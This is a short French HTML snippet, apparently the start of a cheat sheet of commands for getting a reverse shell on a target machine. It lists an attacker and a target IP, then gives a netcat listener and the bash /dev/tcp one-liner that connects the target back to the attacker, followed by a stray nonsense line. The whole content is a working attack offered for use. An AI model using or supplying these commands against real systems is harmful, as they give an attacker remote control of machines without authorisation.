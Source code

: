 <h2>Liste de commandes pour obtenir un reverseshell sur la machine cible</h2>

<ul>(A) Attaquant: 192.168.10.10</ul>
<ul>(C) cible: 192.168.10.100</ul>

<h3>Bash</h3>
(A) # nc -nlv 4444 
<br/>
(C) # bash -i >& /dev/tcp/192.168.10.10/4444 0>&1
<br/>

vdfvd




